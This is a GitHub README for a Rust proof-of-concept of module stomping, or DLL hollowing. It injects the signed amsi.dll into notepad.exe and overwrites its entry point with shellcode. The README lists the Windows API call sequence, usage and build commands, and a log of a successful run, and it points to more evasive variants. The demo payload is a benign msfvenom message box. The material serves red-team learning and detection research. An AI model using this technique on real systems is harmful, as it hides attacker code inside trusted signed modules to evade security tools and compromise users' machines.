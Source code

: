 # Module Stomping / Module Overloading / DLL Hollowing

A basic/simple PoC in Rust made for fun, practice, and learning. Check out my Manual Mapper in Rust: https://github.com/memN0ps/mmapper-rs or Shellcode Reflective DLL Injection in Rust: https://github.com/memN0ps/srdi-rs for alternatives.

## Description

Module stomping injects a Microsoft-signed DLL (e.g amsi.dll) using a classic DLL Injection technique that uses as shown here: [Classic DLL Injection in Rust](https://github.com/memN0ps/arsenal-rs/tree/main/dll_injector_classic-rs). It will then read the `AddressOfEntryPoint` of the injected DLL from the target process and overwrite the content with shellcode.

In this example we use the following steps to perfrom a classic DLL Injection of `amsi.dll` inside `notepad.exe` and then inject our shellcode inside `amsi.dll's` entry point:

* `OpenProcess` - Open a handle to the target process with `PROCESS_ALL_ACCESS`
* `VirtualAllocEx` - Allocate memory for `amsi.dll` full path
* `WriteProcessMemory` - Write the DLL path to the target process memory
* `GetModuleHandleA` - Get a handle to `kernel32.dll`
* `GetProcAddress` - Get the address of `LoadLibraryA`
* `CreateRemoteThread` - Create a thread in the target process

We can now inject our shellcode into the target process

* Get the module (amsi.dll) base address from the target process (notepad.exe) that we just injected
* `ReadProcessMemory` - To read the the DOS and NT headers to get the `AddressOfEntryPoint` of `asmi.dll` in the target process (notepad.exe)
* `WriteProcessMemory` - To overwrite the `AddressOfEntryPoint` content with our shellcode
* `CreateRemoteThread`- Create a thread to run the contents of our shellcode inside `amsi.dll` that is inside `notepad.exe` in this example.

Microsoft Signed DLL
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> sigcheck C:\Windows\System32\amsi.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\amsi.dll:
        Verified:       Signed
        Signing date:   1:41 PM 9/11/2022
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Anti-Malware Scan Interface
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.19041.2075
        File version:   10.0.19041.2075 (WinBuild.160101.0800)
        MachineType:    64-bit
```

Process Monitor's Load Image event shows that `amsi.dll` was loaded.

![Process Monitor](./procmon.png)

Process Explorer shows that `amsi.dll` was loaded too and we can see that our shellcode was executed from the `MessageBoxA` pop-up, which was generated by `msfvenom -p windows/x64/messagebox -f rust`

![Process Monitor](./injection.png)

We can look at `notepad.exe` threads that are running, which shows that thread `9616` with the start address of `Amsi!AmsiUacScan+0xabe0`.

![Process Monitor](./thread.png)


We can inspect this memory location in more detail with `Windbg`. The memory location resolves to `Amsi!DLLMainCRTStartup` and the bytes located in this memory location contains our shellcode.

![Process Monitor](./windbg.png)

## Usage

```
.\module_stomping-rs.exe <process> <full dll path> <dll name>
```

## Example

Build

```
cargo build --release
```

Enable logging for debugging

```
$env:RUST_LOG="debug"
```

Inject amsi.dll
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> .\module_stomping-rs.exe notepad.exe C:\Windows\System32\amsi.dll amsi.dll

[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Process: notepad.exe
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Path: C:\Windows\System32\amsi.dll
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Allocated Memory: 0x202d42c0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Kernel32 Address: 0x7ffa6a510000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] LoadLibraryA address: 0x7ffa6a5304f0
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] C:\Windows\System32\amsi.dll DLL Injection Complete!
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Module Base: 0x7ffa5a6d0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Remote Buffer Length: 0x148
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Bytes Read: 328
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_DOS_HEADER: 0x000002a5c4144b30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_NT_HEADERS: 0x000002a5c4144c30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] AddressOfEntryPoint: 0x7ffa5a6de820
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release>
```

## Note

A more advanced version of this can be found here https://github.com/boku7/Ninja_UUID_Runner by Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku)), which mixes up different process injection techniques for evasion.


## References and Credits

* https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
* https://thewover.github.io/Dynamic-Invoke/
* https://github.com/hasherezade/module_overloading
* https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing
* https://williamknowles.io/living-dangerously-with-module-stomping-leveraging-code-coverage-analysis-for-injecting-into-legitimately-loaded-dlls/
* https://github.com/boku7/Ninja_UUID_Runner
* https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/